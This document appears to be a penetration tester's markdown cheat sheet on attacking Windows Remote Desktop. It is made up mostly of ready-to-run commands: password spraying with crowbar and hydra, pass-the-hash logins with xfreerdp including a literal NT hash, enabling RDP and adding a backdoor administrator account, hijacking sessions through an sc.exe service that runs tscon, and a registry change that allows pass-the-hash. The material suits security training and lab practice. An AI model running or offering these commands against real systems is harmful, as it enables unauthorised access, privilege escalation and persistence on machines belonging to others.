

## Attacking RDP

### RDP Password spraying

- crowbar
- hydra

```bash
crowbar -b rdp -s $IP/32 -U users.txt -c $PWD
```

```bash
hydra -L usernames.txt -p $PWD $IP rdp
```

### RDP Login

```bash
rdesktokp -u $USER -p $PWD $IP
xfreerdp /v:$IP /u:$USER /p:$PWD /dynamic-resolution
xfreerdp3 /v:$IP /u:$USER /p:$PWD /dynamic-resolution
xfreerdp3 /v:$IP /u:$DOMAIN\\$USER /p:$PWD /dynamic-resolution
xfreerdp3 /v:$IP /u:$DOMAIN\\$USER /pth:$HASH +clipboard
xfreerdp3 /v:$IP /u:$USER /d:WORKGROUP /dynamic-resolution /drive:shared,/home/kali/Desktop/Tools /pth:b74242f37e47371aff835a6ebcac4ffe +clipboard

hydra -l $USERname -P $PWD_WORDLIST -s $PORT rdp://$IP
```

```bash
# enabling RDP and opening port 3389
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall add portopening TCP 3389 "Remote Desktop"

# creating a user/assigning a user to the Remote Desktop Users group
net user salaryman Password123! /add
net localgroup administrators salaryman /add 
net localgroup "Remote Desktop Users" salaryman /add
```

### RDP Session Hijacking

**Note: This method no longer works on Server 2019**

Imagine we successfully gain access to a machine and have an account with local administrator privileges. If a user is connected via RDP to our compromised machine, we can hijack the user’s remote desktop session to escalate our privileges and impersonate the account. In an AD environment, this could result in us taking over a Domain Admin account or furthering our access within the domain.

To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft `tscon.exe` binary that enables users to connect to another desktop session. It works by specifying which `SESSION ID` we would like to connect to which session name.

```powershell
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain `SYSTEM` privileges, such as `PsExec` or `Mimikatz`. A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges. We will use `Microsoft sc.exe` binary.

First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.

```powershell
C:\wook> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\wook> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCES
```

Then start the service. Once the service is started, a new terminal with the `lewen` user session will appear. With this new account, we can attempt to discover what kind of privileges it has on the network, and maybe we’ll get lucky, and the user is a member of the `Help Desk` group with admin rights to many hosts or even a `Domain Admin`.

```powershell
net start sessionhijack
```

### RDP Pass-the-Hash (PtH)

If we only have the NT hash of the user obtained from a credential dumping attack such as `SAM` database, and we could not crack the hash to reveal the plaintext password? we can perform an `RDP PtH` attack to gain GUI access to the target system using tools like `xfreerdp`.

**A few caveats**:

- `Restricted Admin Mode` , which is disabled by default, should be enabled on the target host. This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`.
- It can be done using the following command:

```powershell
# Adding the DisableRestrictedAdmin Registry Key
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```



Once the registry key is added, we can use `xfreerdp` with the option `pth` to gain RDP access

```powershell
xfreerdp3 /v:$IP /u:$USER /pth:$HASH
```